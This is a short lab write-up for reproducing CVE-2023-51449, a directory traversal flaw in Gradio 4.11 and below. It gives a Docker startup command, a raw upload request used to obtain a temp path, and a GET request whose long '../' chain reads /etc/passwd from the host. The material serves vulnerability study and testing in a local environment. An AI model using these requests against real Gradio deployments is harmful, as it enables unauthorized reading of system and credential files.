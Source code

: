 # Gradio `file` Directory Traversal Vulnerability (CVE-2023-51449)

Gradio is a Python library for creating interactive interfaces for machine learning models. With Gradio, you can quickly build a visual, easy-to-use web interface for your model without writing any front-end code.

Gradio 4.11 and below, when authentication is not enabled, you can use a public URL to access any file on the machine running the Gradio application if you know the file path to find (for example, if the demo was created with `share=True` or on Hugging Face Spaces).

Reference Links:

+ https://github.com/gradio-app/gradio/pull/6833

+ https://github.com/gradio-app/gradio/tree/gradio%404.10.0

## Environment startup

Execute the following command to start the Gradio environment:

```
docker compose up -d
```

After successful startup, there is no authentication by default.

```
http://your-ip:7860
```

## Vulnerability Reproduction

To upload a piece of content using the upload interface, you need to obtain an accessible file path.

```
POST /upload HTTP/1.1
Host: localhost:7860
Content-Type: multipart/form-data; boundary=---------------------------250033711231076532771336998311

-----------------------------250033711231076532771336998311
Content-Disposition: form-data; name="files";filename="okmijnuhbygv"
Content-Type: application/octet-stream

123456
-----------------------------250033711231076532771336998311--

```
![image-20250424134122049](1.png)
After getting an accessible file path, use the file interface to access it and use directory traversal to read the file, and it can be read successfully.
```
GET /file=/tmp/gradio/7c4a8d09ca3762af61e59520943dc26494f8941b/../../../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: localhost:7860
```
![image-20250424134351720](2.png)